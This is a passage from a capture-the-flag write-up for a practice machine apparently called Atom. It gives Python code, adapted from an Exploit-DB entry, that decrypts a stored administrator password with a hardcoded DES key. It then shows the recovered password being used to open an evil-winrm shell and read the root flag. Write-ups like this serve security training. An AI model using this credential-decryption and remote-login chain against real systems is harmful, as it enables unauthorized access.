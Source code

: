 ```
```

We found the Administrator key but it is encrypted. We can decrypt via this python code.

\## Decrypt PK password

[Offensive Security’s Exploit Database Archive](https://www.exploit-db.com/exploits/49409)

We need to modify our code to accept our key.

\## Modify code 1

```
#!/bin/python3
import json
import base64
from des import * #python3 -m pip install des

def decode(hash):
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')
print(decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'))
```

\## Modify code 2

```
#!/bin/python3
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```

\## Run code

```
⛩\> python3 kan1.py
kidvscat_admin_@123
```

\## Access Admin and read flag

```
⛩\> evil-winrm -i atom.htb -u administrator -p 'kidvscat_admin_@123'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> get-content ../desktop/root.txt
9dc8211d9cfb7397269a77cc9f3dfa24
```


